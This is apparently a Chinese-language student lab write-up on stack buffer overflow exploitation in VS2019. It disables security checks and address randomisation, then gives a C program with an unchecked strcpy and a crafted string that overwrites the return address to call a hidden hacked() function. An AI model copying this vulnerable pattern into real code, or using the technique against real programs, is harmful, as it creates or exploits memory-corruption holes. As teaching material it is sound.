






# 缓冲区溢出-漏洞利用

# 实验目的

* 利用缓冲区溢出漏洞，执行本不应被调用的函数

# 实验环境

* VS2019

# 实验内容

## 预备

**关闭IDE的安全检查**

**设置固定基址**

* `链接器`->`固定基址`->`是`
* `链接器`->`随机基址`->`否`
* `链接器`->`基址`：填写任意基址（实验中以`0x40000000`为例）

## 漏洞利用

**漏洞代码**

```c
#define _CRT_SECURE_NO_WARNINGS

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void hacked() {
	printf("hacked!!");
}

int sub(const char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}

int main(int argc, char** argv)
{
	const char* str = "123456789101\x99\x99\x99\x99\x70\x15\x01\x40";
	sub(str);
	printf("exit");
}
```

**测试**

* (可选)输入任意造成缓冲区溢出长度的字串（e.g. `1234567891010789790`），确定覆盖`Return Address`的末尾字串

  <center></center>
  * 执行`ret`命令时会将返回地址赋给`EIP`，需要做的就是覆盖为`hacked()`函数地址。而返回地址就在`EBP`指针之后
  
    <center></center>
  
* 查看`void hacked()`地址

  <center></center>

* 修改字串为`123456789101\x99\x99\x99\x99\x70\x15\x01\x40`

  <center></center>
  
* 调试，在`sub()`退栈后跳到`hack()`函数

  <center></center>

* 事实上，可以通过在字串后缀继续增加`\x70\x15\x01\x40`，来实现`hacked()`的多次执行。例如输入串为`123456789101\x99\x99\x99\x99\x70\x15\x01\x40\x70\x15\x01\x40`，`hacked()`函数就执行了两次

  <center></center>
